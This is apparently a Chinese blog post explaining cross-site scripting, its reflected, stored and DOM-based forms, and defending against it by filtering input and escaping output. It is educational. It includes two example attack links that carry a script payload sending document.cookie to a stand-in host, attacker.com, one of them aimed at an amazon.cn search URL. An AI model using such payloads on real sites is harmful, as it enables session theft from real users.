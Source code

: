 title: web开发的职业素养：拒绝XSS
photos:
  - >-
    http://o6lqh5p0j.bkt.clouddn.com/cross-site-scripting-my-first-xss-attack.png
categories:
  - Investigation
tags:
  - XSS
abbrlink: oWZgIdOs5O2rjSUngSRMQg
date: 2017-06-02 10:48:41
---

### 简介

XSS攻击的全称是 Cross Site Scripting（跨站脚本攻击），为了避免和样式表CSS混淆而简写为XSS（既生瑜何生亮 :<）。

<!--more-->

#### 攻击目的 
XSS攻击使用web应用，服务器，或者所依赖的插件系统的已知漏洞进行攻击。攻击者通过一些手段，将一些恶意内容，比如js脚本，插入到受攻击的网站。用户使用浏览器进行访问时就会受到攻击。

那么受到攻击有什么危害呢？对用户来讲，比较常见的就是受害者网站的cookie、session等敏感数据遭到泄露（这些数据一般保存着用户登陆状态等信息，攻击者拿到这些就可以登陆用户的账号随心所欲的操作）；而对于网站来讲，也许会影响用户体验，包括而不限于可能因此遭到DOS攻击等等。危害性不容小觑。

![](http://o6lqh5p0j.bkt.clouddn.com/xss-attack2.png)

#### 在web安全中的地位
很多网站都爆发过XSS漏洞，其中不乏互联网巨头，比如Twitter，Facebook，YouTube等等，虽然在互联网安全中已经受到了相当的重视（如果想要了解web中目前比较关注的安全问题，[OWASP Top 10](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project) 千千万万不要错过，它绝对是你在网站安全建设过程中的绝佳帮手），但是大量的XSS漏洞仍在前赴后继。或是缺少经验，或是用户数据并不十分敏感，亦或是互联网风暴席卷而来时疯了一样的迭代速度所限制的安全投入。

### XSS攻击的类型
XSS攻击一般总结为如下三类，第三类攻击可能并不常见一些，在此也稍作说明以示全貌（有时也被划分为两大类：持久化和非持久化的XSS攻击）。

#### 基于反射的攻击（非持久化）

基于反射的XSS攻击一般是服务器端根据用户的输入或者查询条件返回了带有恶意脚本的结果并在客户端执行。这种漏洞常见于各种搜索引擎之中。

##### 举例

比如我们在亚马逊的搜索栏中输入以下图示代码：

![](http://o6lqh5p0j.bkt.clouddn.com/Snip20170602_3.png)

后端服务器接收到用户输入之后进行查询，发现查询不到类似结果，于是返回如下：

![](http://o6lqh5p0j.bkt.clouddn.com/Snip20170602_4.png)

当然了，亚马逊并不存在XSS漏洞，这是正常的结果。那么存在XSS漏洞的搜索是如何表现的呢？

以上述流程为例，当我们在搜索栏中输入对应的恶意脚本代码，服务器端进行处理，当未找到匹配内容时简单返回我们输入的查询字符串。那么，这时候如果网站前端或者服务器端没有对查询字符串做恰当的处理，只是简单返回并插入到页面中，那这段恶意脚本代码很可能被当做正常的script标签解释执行。后果很明显，我们泄露了自己账户的cookie。

那么攻击者是如何进行攻击的呢？他自然不是站在你身旁，威胁你输入上面的脚本，那还不如自己亲自去查看来的迅速。他在发现网站存在基于反射的XSS漏洞之后，通过某种方式给你提供下面一条链接，将恶意代码塞入查询条件中，如下例的'field_keywords'字段，诱导你去点击：

`https://www.amazon.cn/s/ref=nb_sb_noss?__mk_zh_CN=%E4%BA%9A%E9%A9%AC%E9%80%8A%E7%BD%91%E7%AB%99&url=search-alias%3Daps&field-keywords=%3Cscript+src%3D%27attacker.com%3Fcookie%3D%27+%2B+document.cookie%3E%3C%2Fscript%3E&rh=i%3Aaps%2Ck%3A%3Cscript+src%3D%27attacker.com%3Fcookie%3D%27+%2B+document.cookie%3E%3C%2Fscript%3E`

而当你点击的片刻，你对应网站的cookie也就泄露了。

##### 总结
这就是基于反射的XSS攻击，因为攻击代码并不是存储在受攻击网站的服务器上，也称之为非持久化攻击。攻击的代码一般在服务器端的response中可以找见。

![](http://o6lqh5p0j.bkt.clouddn.com/reflected-xss.png)

#### 基于存储的攻击

基于存储的XSS攻击也是向目标网站注入可执行脚本，但是攻击者的恶意代码会被存储到网站服务器上，因此划分为基于存储的XSS攻击。这种漏洞常见于一般的社交网站的评论系统等。

##### 举例

我们去百度贴吧上回帖，回帖的内容是一段恶意的脚本代码，我们点击发表。

![](http://o6lqh5p0j.bkt.clouddn.com/Snip20170602_5.png)

我们的评论也就被后端服务器存储到数据库中。接下来我们去查看刚才发表的评论：

![](http://o6lqh5p0j.bkt.clouddn.com/Snip20170602_7.png)

现在的百度贴吧自然也不存在XSS漏洞。我们还是介绍过程。

那么可以想见，我们的评论被存储到后台数据库中，当别人看帖时，我们的评论自然也会从数据库读取出来展示。那么如果存在XSS漏洞，前后端没有对我们提交的评论进行恰当的处理，这段提交的代码也很可能被当做正常的标签语句解释执行，结果自然也是cookie泄露。

##### 总结

基于存储的XSS漏洞的攻击方式一目了然，因为基于存储，属于一种持久化攻击。这种XSS攻击，攻击者的代码从服务器端返回的response中取得。

![](http://o6lqh5p0j.bkt.clouddn.com/sorted-XSS.png)

#### 基于DOM的攻击

基于DOM的攻击可以说是基于反射的XSS攻击的子类，它也是非持久化的。它的特别之处就在于服务端并不会接触到攻击的脚本，攻击由客户端代码执行之后发生。

##### 举例

攻击者向受害者发送了一个攻击连接：

`http://some.site/page.html?default<script+src%3Dattacker.com%3Fcookie%3Ddocument.cookie><%2Fscript>
`

当受害者点击这个链接时，便会向服务器端发送请求，服务器端返回资源、数据，但并没有接触url中的default参数。

这个default参数有什么用呢？它被本地的js代码读取执行，将参数对应的值插入页面，由于没有对参数值做恰当处理，浏览器可能会将这段恶意代码解释执行，于是触发了XSS攻击。

##### 总结

基于DOM的漏洞并不是很常见，服务器端不会touch到它，因此与基于反射的XSS攻击有所不同，它是本地js代码的执行漏洞，服务器端并不能采取有效措施解决它而是依赖于客户端代码。

### 如何防御XSS漏洞

通过以上详述，我们应该可以理解到所谓的XSS攻击主要是因为浏览器端错误执行了恶意的脚本所致。我们所要做的工作自然就是杜绝这些恶意的脚本（比如针对带有恶意脚本的请求拒绝服务），或者将这些脚本转化为浏览器不会执行的文本（也就是转义）。

最稳妥的考虑方式是将任何数据都视为不可信任，根据数据要置于的上下文都进行恰当的转义。退一步当然也可以划分信任数据域和不信任数据域分而治之。

这样一个原则在解决XSS漏洞时也具有很强的适用性：过滤输入，转义输出。
